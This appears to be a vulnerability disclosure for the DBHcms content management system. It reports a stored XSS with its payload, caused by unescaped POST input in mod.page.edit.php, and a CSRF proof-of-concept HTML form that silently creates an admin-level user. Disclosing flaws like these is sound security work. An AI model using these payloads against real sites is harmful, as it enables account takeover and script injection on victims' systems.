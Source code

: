
## [10]
there has no htmlspecialchars function for '$_POST['pageparam_insert_description']' variable in dbhcms\mod\mod.page.edit.php line 227

![](images/2019-07-25-16-14-28.png)

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-12

at `Description:` parameter filled `33"><img/src/onerror=alert(43)>//` 

![](images/2019-07-25-16-20-15.png)

![](images/2019-07-25-16-20-51.png)

## [11]

first login as admin user, then visit http://ip:port/csrf.html and click Submit request

csrf.html

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8089/index.php?dbhcms_pid=-70" method="POST">
      <input type="hidden" name="dbhcms_save_user" value="new" />
      <input type="hidden" name="user_login_hidden" value="" />
      <input type="hidden" name="user_login" value="aaaa" />
      <input type="hidden" name="user_passwd" value="aaaa" />
      <input type="hidden" name="user_name" value="aaaa" />
      <input type="hidden" name="user_sex" value="ST_FEMALE" />
      <input type="hidden" name="user_company" value="aaaa" />
      <input type="hidden" name="user_location" value="aaaa" />
      <input type="hidden" name="user_email" value="asd@qq.com" />
      <input type="hidden" name="user_website" value="http://123.com" />
      <input type="hidden" name="user_lang" value="en" />
      <input type="hidden" name="user_domains" value="1" />
      <input type="hidden" name="user_level" value="A" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```